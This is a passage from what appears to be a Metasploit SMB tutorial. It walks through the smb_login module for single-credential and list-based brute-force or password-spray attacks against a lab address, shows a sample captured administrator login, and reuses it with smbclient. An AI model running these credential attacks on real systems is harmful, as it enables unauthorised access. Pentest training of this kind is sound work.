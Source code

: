 Important: Listing files may require credentials; anonymous enumeration might only show share names.

### 5) Try logins / password testing

Module: auxiliary/scanner/smb/smb_login
Purpose: attempt authentication using single credentials or lists (user/pass files). Use `STOP_ON_SUCCESS true` to halt when credentials are found.

```
msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(smb_login) > show options

# Important options
# RHOSTS, RPORT
# USERNAME or USER_FILE
# PASSWORD or PASS_FILE
# STOP_ON_SUCCESS (true/false)
# USER_AS_PASS (try username as password)
# THREADS

msf6 auxiliary(smb_login) > set RHOSTS 10.10.10.10
# Single credential test
msf6 auxiliary(smb_login) > set SMBUser administrator
msf6 auxiliary(smb_login) > set SMBPass 'P@ssw0rd'
msf6 auxiliary(smb_login) > run

# Brute/spray from lists (recommended: small list, observe lockout policy)
msf6 auxiliary(smb_login) > set USER_FILE /path/to/users.txt
msf6 auxiliary(smb_login) > set PASS_FILE /path/to/passwords.txt
msf6 auxiliary(smb_login) > set STOP_ON_SUCCESS true
msf6 auxiliary(smb_login) > set THREADS 10
msf6 auxiliary(smb_login) > run
```

Sample success output:

```
[*] 10.10.10.10:445 - SUCCESSFUL LOGIN: 10.10.10.10:445 - administrator:P@ssw0rd
[+] Credentials saved to the database
```

After a successful authentication, export or note credentials immediately for follow-up actions.

### 6) Using the credentials with Metasploit or external tools

Once you have a valid username/password pair, you can use Metasploit post-auth modules or external tools like `smbclient`, `smbmap`, or `crackmapexec` to interact with shares.

Example: list shares via `smbclient` using discovered creds

```bash
smbclient -L //10.10.10.10/ -U administrator%P@ssw0rd
smbclient //10.10.10.10/public -U administrator%P@ssw0rd
```
